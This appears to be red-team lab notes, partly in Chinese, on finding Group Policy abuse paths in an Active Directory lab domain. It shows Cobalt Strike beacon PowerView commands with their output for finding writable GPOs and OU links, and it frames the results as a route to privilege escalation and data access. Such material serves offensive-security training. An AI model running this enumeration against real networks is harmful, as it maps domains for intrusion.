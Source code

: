 
This query will return the principals that can write to the GP-Link attribute on OUs:
```
beacon> powershell Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl

ObjectDN           : OU=Workstations,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Tier 1,OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125

ObjectDN           : OU=Tier 2,OU=Servers,DC=dev,DC=cyberbotic,DC=io
SecurityIdentifier : S-1-5-21-3263068140-2042698922-2891547269-1125
```

从上面的输出可以看到，```1st Line Support```域组既可以创建新的 GPO ，也可以将它们链接到多个 OU。
 如果更多的特权用户被认证到这些OU内的任何机器上，这可能导致特权升级。还可以想象一下，如果我们可以将GPO链接到包含敏感文件或数据库服务器的OU上--我们可以使用这些GPO来访问这些机器，随后访问存储在这些机器上的数据。



获取某个OU的计算机列表
```
beacon> powershell Get-DomainComputer | ? { $_.DistinguishedName -match "OU=Tier 1" } | select DnsHostName

dnshostname            
-----------            
srv-1.dev.cyberbotic.io
```


下面查询返回所有拥有WriteProperty、WriteDacl或WriteOwner权限的SID
```
beacon> powershell Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "WriteProperty|WriteDacl|WriteOwner" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl

ObjectDN              : CN={AD7EE1ED-CDC8-4994-AE0F-50BA8B264829},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
SecurityIdentifier    : S-1-5-21-3263068140-2042698922-2891547269-1126

beacon> powershell ConvertFrom-SID S-1-5-21-3263068140-2042698922-2891547269-1126
DEV\Developers
```

查看上面结果中ObjectDN的名字
```
beacon> powershell Get-DomainGPO -Name "{AD7EE1ED-CDC8-4994-AE0F-50BA8B264829}" -Properties DisplayName

displayname       
-----------       
PowerShell Logging
```


